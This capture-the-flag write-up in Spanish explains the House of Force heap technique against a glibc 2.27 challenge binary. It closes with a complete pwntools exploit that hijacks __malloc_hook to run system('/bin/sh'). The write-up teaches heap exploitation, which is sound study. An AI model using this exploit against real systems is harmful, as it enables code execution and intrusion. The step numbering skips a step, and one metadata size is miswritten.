 # House Of Force

```
Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'$ORIGIN'
    Stripped:   No
    Debuginfo:  Yes
```

Este reto presentaba una introducción a la técnica homónima introducida en el *`Malloc Maleficarum`*.

La solucion es sencilla, dado que hay un heap overflow y contamos con glibc = 2.27 no hay verificacion de integridad del top chunk y tenemos los llamados "malloc hooks" para redirigir la ejecucion a pesar de que la GOT es de solo lectura.

Pasos:
1. Calculamos las direcciones de libc base y del top chunk con los leaks que nos brindan.
2. Reservamos un primer chunk y sobreescribimos el campo `size` del top chunk a `0xffffffffffffffff` (-1).
3. Reservamos un segundo chunk de tamaño `target_addr - top_chunk_addr - 0x20` --- siendo target_addr la direccion de `__malloc_hook` --- para posicionar el top chunk en nuestra direccion objetivo.
```
 # Explicacion del calculo
 # Nosotros queremos que new_top = __malloc_hook - len(prev_size) - len(size) = __malloc_hook - 0x10, para que en la proxima asignacion nuestro chunk apunte alli
      new_top = old_top + nb, nb es el numero de bytes reservados (10 bytes de metadata + sizeof(data))
      new_top =  __malloc_hook - 0x10
      __malloc_hook - 0x10 = old_top + nb
      __malloc_hook - 0x10 = old_top + 0x10 + size
      size = __malloc_hook - 0x10 - old_top - 0x10
      size = __malloc_hook - old_top - 0x20
```
5. Reservamos un tercer chunk --- cuyo campo de datos se encuentra en `__malloc_hook` --- y sobreescribimos la direccion del puntero con la direccion de `system`.
6. Reservamos un cuarto chunk con tamaño `binsh_addr`, provocando malloc(binsh_addr) =>  system("/bin/sh").

## Exploit

```py
from pwn import *
r = process("./house_of_force")
libc = ELF("./libc.so.6")

def malloc(size, data):
    r.sendline(b"1")
    r.sendlineafter(b"size:",str(size).encode())
    r.sendlineafter(b"data:",data)

r.recvuntil(b"@ ")
libc.address =  int(r.recv(14),16) - 0x80970

r.recvuntil(b"@ ")
top_chunk = int(r.recvline().strip(),16) + 0xb0

# Overwrite size of the top chunk
malloc(1,b"A"*24 + b"\xff"*8)

# Place new top chunk
evil_size = libc.symbols['__malloc_hook'] - top_chunk - 0x20
malloc(evil_size,b"")

# Overwrite __malloc_hook 
malloc(8,p64(libc.symbols['system']))

# Call system("/bin/sh")
malloc(next(libc.search("/bin/sh")),b"")

r.interactive()
```
